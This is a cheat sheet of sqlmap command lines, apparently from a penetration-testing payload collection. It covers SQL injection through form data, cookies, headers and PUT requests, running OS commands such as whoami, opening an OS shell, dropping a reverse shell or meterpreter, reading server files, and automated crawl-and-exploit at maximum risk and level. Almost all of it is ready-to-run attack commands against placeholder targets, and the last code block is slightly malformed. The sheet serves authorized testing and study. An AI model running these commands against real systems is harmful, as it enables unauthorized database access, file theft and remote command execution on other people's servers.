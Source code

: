    sqlmap -u "http://example.com/" --data="login=blah&password=wuzi"

### Inside cookie

    sqlmap  -u "http://example.com" --cookie "mycookies=*"
    sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
    sqlmap -u "http://example.com" --headers="referer:*"

### PUT Method

    sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

### Eval

    sqlmap -u https://foo --eval "session"

### Exec command

    sqlmap -u "http://example.com/?id=1" -p id --os-cmd whoami

### Simple Shell

    sqlmap -u "http://example.com/?id=1" -p id --os-shell

### Dropping a reverse-shell / meterpreter

    sqlmap -u "http://example.com/?id=1" -p id --os-pwn

### Read file

   sqlmap -u https://foo?id=1 --file-read=foo.txt

### Crawl a website with SQLmap and auto-exploit

    sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3
    sqlmap --batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
    sqlmap --crawl = how deep you want to crawl a site
    sqlmap --forms = Parse and test forms

#### Get the SQL payload execution with a GET to a url

    sqlmap -r login.txt -p username --second-url "http://foo/details.php"

### Get the SQL payload execution sending a custom request from a file

    sqlmap -r login.txt -p username --second-req details.txt

### Specify the Injection Techniques

```
You can specify the difficulty levels using two flags,

Option: --risk

–level = LEVEL     Level of tests to perform (1-5, default 1)
–risk=RISK         Risk of tests to perform (0-3, default 1)```sh
```
